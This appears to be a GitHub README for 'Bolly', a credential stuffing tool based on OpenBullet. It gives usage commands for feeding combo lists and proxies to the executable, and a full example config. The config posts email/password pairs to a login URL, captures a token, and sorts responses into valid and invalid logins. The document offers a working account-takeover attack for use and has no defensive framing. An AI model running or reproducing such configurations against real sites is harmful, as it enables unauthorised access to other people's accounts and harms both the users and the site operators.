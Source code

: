 # Bolly

Bolly is an credentials stuffing tool based on OpenBullet high performance because it reuses the same http client [httpclient best practices](https://www.thecodebuzz.com/using-httpclient-best-practices-and-anti-patterns/)

# Usage

Open your cmd and past
```
> Bolly.exe your_config.json your_combos.txt
```
you can also specify a list of proxies ( http only )
```
> Bolly.exe your_config.json your_combos.txt your_proxies.txt
```

# Config Example

```json
{
   "Settings":{
      "Name":"Site",
      "UseCookies":false,
      "AllowAutoRedirect":true,
      "MaxDegreeOfParallelism":1
   },
   "Blocks":[
      {
         "Type":"Request",
         "Methode":"Post",
         "Url":"https://www.site.com",
         "ContentType":"application/x-www-form-urlencoded",
         "Content":"email=<USERNAME>&password=<PASSWORD>",
         "Headers":[
            "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36",
            "Pragma: no-cache",
            "Accept: */*"
         ],
         "LoadSource":true
      },
      {
         "Type":"Parse",
         "ParseName":"TOKEN",
         "Source":"<SOURCE>",
         "Methode":"LR",
         "FirstInput":"LeftInput",
         "SecondInput":"RightInput",
         "Capture":true
      },
      {
         "Type":"KeyCheck",
         "KeyCheckPattern":[
            {
               "Status":"Invalid",
               "Source":"<SOURCE>",
               "Condition":"Contains",
               "Key":"InvalidKey"
            },
            {
               "Status":"Success",
               "Source":"<RESPONSECODE>",
               "Condition":"Equal",
               "Key":"200"
            }
         ],
         "RetryIfNotFound":true
      }
   ]
}
```
